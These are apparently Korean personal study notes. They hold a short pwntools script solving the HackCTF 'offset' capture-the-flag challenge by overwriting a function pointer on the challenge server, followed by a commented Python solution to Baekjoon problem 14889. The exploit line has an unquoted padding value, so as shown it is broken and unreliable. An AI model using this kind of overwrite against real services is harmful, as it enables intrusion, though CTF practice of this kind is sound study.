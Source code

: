 # 개인공부
## python

## hackctf. offset

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3007)

p.recvuntil("Which function would you like to call?")

pay = A*30
pay += p32(0xD8)

p.sendline(pay)
p.interactive()


## 14889. 스타트와 링크

# 상황에 따라 조합함수 , 수열함수 이용하기


풀이


from itertools import combinations # 조합 함수

>> itertools 모듈 - combination 함수

>> itertools - combinations_with_replacement 함수

N = int(input())        # 반복 횟수 받기

able_borad = []     

for _ in range(N):
    able_borad.append(list(map(int,input().split())))

number_list = [i for i in range(N)]     # 멤버들의 총 리스트

res = float('inf')  #???    # 능력치 차이 최소값


'''
>>> float('inf')          # 양의 무한대
inf

>>> float('-inf')         # 음의 무한대
-inf

>>> 1e100 < float('inf')  # 무한대는 다른 모든 실수보다 크다
True

>>> 1e309                 # 너무 큰 실수는 무한대로 평가된다
inf

>>> 1e-324                # 너무 0에 가까운 실수는 0으로 평가된다
0.0

'''

def solve():
    global res

    # 조합함수를 이용해서 각각 후보자를 생성
    for c in combinations(number_list, N//2):
        # 선택된 후보와 나머지

        start_number = list(c)      
        # number_list 부터 N//2 까지 반복 하면서
        # 나온 c는 비교하기위한 첫번쨰 숫자이고

        link_number = list(set(number_list) - set(c))
        # 링크 넘버는 두번쨰 숫자이다.
        # 리스트에서 스타트리스트와 겹치는 부분만 제거해주면 된다.


        # 점수 비교 2명씩
        start_com = list(combinations(start_number,2))
        # 위의 만들어놨던 스타트 멤버와 링크멤버를 서로 비교
        link_com = list(combinations(link_number,2))

        # 점수 구하기
        start_sum = 0   # 점수 합 변수
        for x,y in start_com:
            start_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.

        link_sum = 0    # 점수 합 변수
        for x,y in link_com:
            link_sum += (able_borad[x][y] + able_borad[y][x])
        # x와 y를 받고 합에 (x,y), (y,x) 를 더해준다.


        # 차이를 구하는거면 함수 abs 를 사용한다.
        # 왜냐하면 음수가 나올수있기떄문에
        # abs >> 절댓값 나오게하는 함수

        if (res > abs(start_sum - link_sum)):
            res = abs(start_sum-link_sum)
            # 계속해서 res와 비교해서 최소값 도출하기
solve()
print(res)
